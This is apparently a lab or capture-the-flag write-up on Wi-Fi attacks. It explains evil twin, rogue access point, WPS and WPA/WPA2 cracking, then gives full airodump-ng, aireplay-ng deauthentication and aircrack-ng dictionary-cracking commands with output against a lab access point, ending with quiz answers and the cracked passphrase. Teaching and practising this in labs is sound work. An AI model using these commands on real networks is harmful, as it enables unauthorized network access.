

# Day 11 - Wi-Fi Attacks

# What is Wi-Fi

Wi-Fi is the technology that connects devices to the Internet wirelessly through a router. The router bridges the wireless devices and the Internet using a wired connection.

### How Wi-Fi Works:

1. **Enable Wi-Fi on a device** – The device lists available Wi-Fi networks (broadcasted SSIDs).
2. **Connect to a network** – Requires a password (Pre-Shared Key or PSK).
3. **Assigned an IP address** – The device is identified in the network and can communicate with others.

---

# Wi-Fi's Pivotal Role in Organisations

Organisations prefer Wi-Fi to wired networks for **cost, flexibility, and efficiency**. Employees form an interconnected network within the organisation to communicate and share resources.

However, attackers outside the organisation can:

- Detect broadcasted SSIDs.
- Exploit various vulnerabilities to target Wi-Fi networks.

---

# Attacks on Wi-Fi

### 1. Evil Twin Attack

- **Method**:
    - Create a fake access point with a similar SSID to a trusted Wi-Fi (e.g., "Home_Internnet").
    - Send **de-authentication packets** to disconnect users from the legitimate network.
    - Frustrated users connect to the attacker’s fake network.
- **Impact**: Attacker intercepts user traffic.

### 2. Rogue Access Point

- **Method**:
    - Set up an **open Wi-Fi** with strong signal strength near the target organisation.
    - Devices automatically connect to the rogue access point.
- **Impact**: Attacker intercepts communications.

### 3. WPS Attack

- **Wi-Fi Protected Setup (WPS)** uses an 8-digit PIN for easy connections.
- **Method**:
    - Capture the router’s WPS response data.
    - Use **brute-force** attacks to guess the PIN and retrieve the PSK.
- **Impact**: Attacker gains access to the network.

### 4. WPA/WPA2 Cracking

- **Wi-Fi Protected Access (WPA/WPA2)** secures Wi-Fi with encryption.
- **Method**:
    - Send **de-authentication packets** to disconnect a client.
    - Capture the **4-way handshake** during reconnection.
    - Use **brute-force** or **dictionary attacks** on the captured handshake file.
- **Impact**: Attacker cracks the Wi-Fi password.

---

# WPA/WPA2 Cracking in Detail

### The 4-Way Handshake Process

1. **Router sends a challenge** – Verifies the client knows the PSK without sharing it.
2. **Client responds with encrypted data** – Proves it has the PSK.
3. **Router verifies and confirms** – Confirms the client’s response.
4. **Final check** – Secure connection is established.

### Vulnerability:

- The handshake can be **captured** when listening to Wi-Fi traffic during a connection.
- The attacker uses **offline brute-force** or **dictionary attacks** on the handshake data to guess the PSK.

---

## WPA/WPA2 Cracking Workflow:

1. Put wireless adapter into **monitor mode** to scan for networks.
2. Target a specific network and **capture the 4-way handshake**.
3. **Force de-authentication** to initiate re connection (if needed).
4. Run a **brute-force** or **dictionary attack** on the handshake file using tools like `aircrack-ng`.

---

## Practical

SSH into the machine, and then run the command `iw dev`. This will show us all wireless interfaces available to use.



The device/interface `wlan2` is available to us, and there are two important details to take away from this output that will be useful to us:

1. The `addr` is the MAC/BSSID of our device. `BSSID` stands for Basic Service Set Identifier, and it's a unique identifier for a wireless device or access point's physical address.
2. The `type` is shown as `managed`. This is the standard mode used by most Wi-Fi devices (like laptops, phones, etc.) to connect to Wi-Fi networks. In managed mode, the device acts as a client, connecting to an access point to join a network. There is another mode called monitor.

Next, we can scan for wireless networks available to us using the `wlan2` device. Use the following command:

```bash
$ sudo iw dev wlan2 scan
```


- The BSSID and SSID of the device are `02:00:00:00:00:00` and `MalwareM_AP` respectively. Since the SSID is shown, this means the device is advertising a network name, which access points do to allow clients to discover and connect to the network.
- The presence of `RSN` (Robust Security Network) indicates the network is using WPA2, as RSN is a part of the WPA2 standard. WPA2 networks typically use RSN to define the encryption and authentication settings.
- The Group and Pairwise ciphers are `CCMP`. **Counter Mode with Cipher Block Chaining Message Authentication Code Protocol (CCMP)** is the encryption method used by WPA2.
- The Authentication suites value inside RSN is `PSK` indicating that this is a WPA2-Personal network, where a shared password is used for authentication.
- Another important detail is the DS Parameter set value, which shows channel 6. The channel, in terms of Wi-Fi, refers to a specific frequency range within the broader Wi-Fi spectrum that allows wireless devices to communicate with each other. There are various Wi-Fi channels, and they all help distribute network traffic across various frequency ranges, which reduces interference. The two most common Wi-Fi channels are 2.4 GHz and 5GHz. In the 2.4 GHz band, channels 1, 6, and 11 are commonly used because they don’t overlap, minimizing interference. In the 5 GHz band, there are many more channels available, allowing more networks to coexist without interference.

**Monitor mode:** 

This is a special mode primarily used for network analysis and security auditing. In this mode, the Wi-Fi interface listens to all wireless traffic on a specific channel, regardless of whether it is directed to the device or not. It passively captures all network traffic within range for analysis without joining a network.

To set the wlan2 device in the monitor mode, run the following commands:

```bash
glitch@wifi:~$ sudo ip link set dev wlan2 down
glitch@wifi:~$ sudo iw dev wlan2 set type monitor
glitch@wifi:~$ sudo ip link set dev wlan2 up
```

To confirm if monitor mode is enabled, run the next command:

```bash
glitch@wifi:~$ sudo iw dev wlan2 info
Interface wlan2
	ifindex 5
	wdev 0x200000001
	addr 02:00:00:00:02:00
	type monitor
	wiphy 2
	channel 1 (2412 MHz), width: 20 MHz (no HT), center1: 2412 MHz
	txpower 20.00 dBm
      
```

To begin the attack, launch a new SSH session in addition to the one we already have.

On the first terminal, we start by capturing Wi-Fi traffic in the area, specifically targeting the WPA handshake packets. We can do this with the command `sudo airodump-ng wlan2`. This command provides a list of nearby Wi-Fi networks (SSIDs) and shows important details like signal strength, channel, and encryption type. 

Note: By default, `airodump-ng` will automatically switch the selected wireless interface into monitor mode if the interface supports it.

```bash
glitch@wifi:~$ sudo airodump-ng wlan2
BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 02:00:00:00:00:00  -28        2        0    0   6   54   WPA2 CCMP   PSK  MalwareM_AP      
```

### Capturing the 4-Way Handshake Using `airodump-ng`

### Step 1: Cancel Previous Command

- Press **CTRL+C** in the terminal to cancel the running `airodump-ng` process.

---

### Step 2: Run Targeted Command

Execute the following command to target a specific access point and capture the traffic:

```bash
sudo airodump-ng -c 6 --bssid 02:00:00:00:00:00 -w output-file wlan2
```

- `sudo airodump-ng`: Runs the tool with root privileges to monitor traffic.
- `c 6`: Targets channel 6 where the access point operates.
- `-bssid 02:00:00:00:00:00`: Filters traffic for the specific access point's MAC address.
- `-w output-file`: Saves the captured data to files starting with the name `output-file`.
- `wlan2`: The name of your wireless adapter in **monitor mode**.

The command will first check for any clients that may be connected to the access point. If a client is already connected, then we can perform a deauthentication attack; otherwise, for any new client that connects, we will capture the 4-way handshake, and save the captured traffic into a file.

**Leave this command running until the attack is complete.**

After 1-5 minutes, the terminal should look something like this:

```bash
 **BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 02:00:00:00:00:00  -28 100      631        8    0   6   54   WPA2 CCMP   PSK  MalwareM_AP  

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 02:00:00:00:00:00  02:00:00:00:01:00  -29    1 - 5      0      140** 
```

The STATION section shows the device's BSSID (MAC) of `02:00:00:00:01:00` that is connected to the access point. We will be targeting this connection.

### Deauthentication Attack

On the second terminal, launch the deauthentication attack. Because the client is already connected, we want to force them to reconnect to the access point, forcing it to send the handshake packets. We can break this down into 3 simple steps:

1. **Deauthentication packets**: The tool `aireplay-ng` sends deauthentication packets to either a specific client (targeted attack) or to all clients connected to an access point (broadcast attack). These packets are essentially "disconnect" commands that force the client to drop its current Wi-Fi connection.
2. **Forcing a reconnection**: When the client is disconnected, it automatically tries to reconnect to the Wi-Fi network. During this reconnection, the client and access point perform the 4-way handshake as part of the reauthentication process.
3. **Capturing the handshake**: This is where `airodump-ng` comes into play because it will capture this handshake as it happens, providing the data needed to attempt the WPA/WPA2 cracking.

We can do this with `sudo aireplay-ng -0 1 -a 02:00:00:00:00:00 -c 02:00:00:00:01:00 wlan2`. The `-0` flag indicates that we are using the deauthentication attack, and the `1` value is the number of deauths to send. The `-a` indicates the BSSID of the access point and `-c` indicates the BSSID of the client to deauthenticate.

```bash
glitch@wifi:~$ sudo aireplay-ng -0 1 -a 02:00:00:00:00:00 -c 02:00:00:00:01:00 wlan2
19:29:37  Waiting for beacon frame (BSSID: 02:00:00:00:00:00) on channel 6
19:29:38  Sending 64 directed DeAuth (code 7). STMAC: [02:00:00:00:01:00] [ 0| 0 ACKs]
```

On the first terminal, we should now see the WPA handshake as `WPA handshake: 02:00:00:00:00:00`.

```bash
CH  6 ][ Elapsed: 1 min ][ 2024-11-02 19:30 ][ WPA handshake: 02:00:00:00:00:00 

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 02:00:00:00:00:00  -28 100      631        8    0   6   54   WPA2 CCMP   PSK  MalwareM_AP  

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 02:00:00:00:00:00  02:00:00:00:01:00  -29    1 - 5      0      140  EAPOL 
```

### Cracking the WPA/WPA2 Passphrase

The WPA/WPA2 passphrase can now be cracked using a dictionary attack, where the passphrase is matched against entries in a wordlist. The cracking will be done using the tool `aircrack-ng` and the wordlist used here will be `rockyou.txt`.

The command `sudo aircrack-ng -a 2 -b 02:00:00:00:00:00 -w /home/glitch/rockyou.txt output*cap` will do this for us where the `-a 2` flag indicates the WPA/WPA2 attack mode. The `-b` indicates the BSSID of the access point, and the `-w` flag indicates the dictionary list to use for the attack. Finally, we select the output files that we will be using, which contain the 4-way handshake that we will be cracking.

```bash
glitch@wifi:~$ sudo aircrack-ng -a 2 -b 02:00:00:00:00:00 -w /home/glitch/rockyou.txt output*cap
Reading packets, please wait...
Opening output-file-01.cap
Read 276 packets.
1 potential targets

                               Aircrack-ng 1.6 

      [00:00:01] 304/513 keys tested (217.04 k/s) 

      Time left: 0 seconds                                      59.26%

                 KEY FOUND! [ REDACTED ]

      Master Key     : B6 53 9A 71 8C C4 74 5F E3 26 49 82 37 74 65 09 
                       BE C5 62 CE 43 C4 68 A7 B4 8F 8C E6 98 EE 1C CB 

      Transient Key  : 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 

      EAPOL HMAC     : C8 8E D5 F4 B4 5A 1D C4 6C 41 35 07 68 81 79 CD        
```

Note: If you get an `Packets contained no EAPOL data; unable to process this AP` error, this means that you ran aircrack-ng prior to the handshake being captured or that the handshake was not captured at all. If that's the case, then re-do all of the steps in order to capture the WPA handshake.

With the PSK, we can now join the `MalwareM_AP` access point. In a typical engagement, we would do this to inspect the new network, or in some cases, joining the access point is enough to show impact. First, press `CTRL+C` on the terminal that has airodump-ng running in order to stop the airodump-ng process. We do this because we will not be able to join the Wi-Fi network while airodump-ng is running due to the fact that we are actively using the interface in monitor mode. Then execute the following commands:

```bash
glitch@wifi:~$ wpa_passphrase MalwareM_AP 'ENTER PSK HERE' > config
glitch@wifi:~$ sudo wpa_supplicant -B -c config -i wlan2
```

Note: If you get a `rfkill: Cannot get wiphy information` error, you can ignore it. You will also notice that `wpa_supplicant` has automatically switched our wlan2 interface to managed mode.

Giving it about 10 seconds and checking the wireless interfaces once again with iw dev shows that we have joined the `MalwareM_AP` SSID.

```bash
glitch@wifi:~$ iw dev
phy#2
-- Removed for brevity --

        Interface wlan2
		ifindex 5
		wdev 0x200000001
		addr 02:00:00:00:02:00
		ssid MalwareM_AP
		type managed
		channel 6 (2437 MHz), width: 20 MHz (no HT), center1: 2437 MHz
		txpower 20.00 dBm
```

---

## Questions

1. What is the BSSID of our wireless interface?
    
    
    
    Ans.: **02:00:00:00:02:00**
    

2. What is the SSID and BSSID of the access point? Format: SSID, BSSID
    
    
    
    Ans.: **MalwareM_AP, 02:00:00:00:00:00**
    
3. What is the BSSID of the wireless interface that is already connected to the access point?
    
    On running the command `sudo airodump-ng -c 6 --bssid 02:00:00:00:00:00 -w output-file wlan2` , we will be able to see the wireless interface already connected to the access point under the STATION field:
    
    
    
    Ans.: **02:00:00:00:01:00**
    

4. What is the PSK after performing the WPA cracking attack?
    
    
    
    Ans.: **fluffy/champ24**